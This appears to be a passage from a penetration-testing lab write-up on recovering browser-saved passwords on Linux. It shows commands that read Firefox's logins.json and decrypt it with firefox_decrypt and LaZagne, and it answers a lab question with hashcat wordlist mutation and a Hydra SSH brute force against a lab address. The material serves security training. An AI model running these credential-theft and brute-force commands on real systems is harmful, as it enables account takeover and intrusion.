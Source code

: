 Browsers store the passwords saved by the user in an encrypted form locally on the system to be reused. For example, when we store credentials for a web page in the Firefox browser, they are encrypted and stored in `logins.json` on the system.

Firefox stored credentials ->

```shell-session
cry0l1t3@unixclient:~$ ls -l .mozilla/firefox/ | grep default 

drwx------ 11 cry0l1t3 cry0l1t3 4096 Jan 28 16:02 1bplpd86.default-release
drwx------  2 cry0l1t3 cry0l1t3 4096 Jan 28 13:30 lfx3lvhb.default
```

```shell-session
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

The tool [Firefox Decrypt](https://github.com/unode/firefox\_decrypt) is excellent for decrypting these credentials

```shell-session
python3.9 firefox_decrypt.py
```

Alternatively, `LaZagne` can also return results if the user has used the supported browser.

```shell-session
python3 laZagne.py browsers
```

_**Examine the target and find out the password of the user Will. Then, submit the password as the answer.**_

```
hashcat --force kira.list -r custom.rule --stdout | sort -u > mut_pass.list
```

```
hydra -l kira -P mut_pass.list ssh://10.129.199.132 -t 64
```

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
